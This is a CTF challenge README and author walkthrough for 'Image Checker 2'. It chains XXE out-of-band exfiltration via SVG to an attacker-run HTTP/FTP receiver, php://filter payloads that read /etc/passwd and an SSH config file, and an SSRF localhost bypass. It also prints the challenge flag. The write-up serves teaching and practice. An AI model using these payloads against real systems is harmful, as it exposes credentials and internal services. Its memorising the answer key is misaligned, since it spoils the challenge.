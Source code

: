 # XXE OOB via SVG + SSRF network scan + SSRF localhost bypass

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
03/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Image Checker 2`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Very difficult / très difficile

### Description

```
noraj is hiding something...

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: SVG
- Hint2: XXE
- Hint3: SSRF
- Hint4: SSH (user) config

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

More hardcore version of *Image Checker 1* so first steps are the same but this
time the flag is not easily hidden in `/etc/passwd` but on a remote service.

1. The app ask for a SVG.
2. Other file types seem to be refused.
3. Let's pick a legit svg and sent it to see what happens. Alternatively just load `view.php` without parameter.
4. The app seems to parse info from the file.
5. Since SVG is a XML let's try a XXE attack.
6. We can't see any errors, let's try a XXE OOB.
7. Let's start a HTTP server to deliver payloads (`xxe.svg` & `xxe.xml`) and...
8. ... let's start a FTP OOB extraction receiver ([xxeserv](https://github.com/staaldraad/xxeserv)):
    ```
    ./xxeserv -p 2121 -w -wd /home/noraj/dir/ -wp 8080
    ```
9. Send the payload: http://x.x.x.x:42421/view.php?svg=http://192.168.1.84:8080/xxe.svg. (see `xxe.svg` & `xxe.xml`)
10. Read `/etc/passwd`, the home of the user `noraj` is `/home/noraj/`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/etc/passwd
    ```
11. Let's try to find juicy files like `.bash_hisotry`, `.profile`, etc. the only one which exists is `/home/noraj/.ssh/config`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/home/noraj/.ssh/config
    ```
12. The ssh config file is leaking the `hiddenservice` domaine name.
13. Then bruteforce port to find the port where a service is available: http://hiddenservice:9999. (see bruteforce script `bf_ports.rb` with in depth explanation in comments)
14. We have to request http://127.0.0.1:10000 but port and host are blocked, we have to bypass it.
15. Do an SSRF bypass. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999?url=http://127.0.0.1:10000
    ```
    with
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999/?url=http://127.0.0.1:10000%23@google.com:80/
    ```

## Flag

`sigsegv{so_y0u_ar3_r3a11y_s3eri0us_4bout_XXE_4nd_SSRF}`

## SigSegV2

A web challenge that was available during SigSegV2 CTF (2019).

1 teams on 36 flaged this challenge.
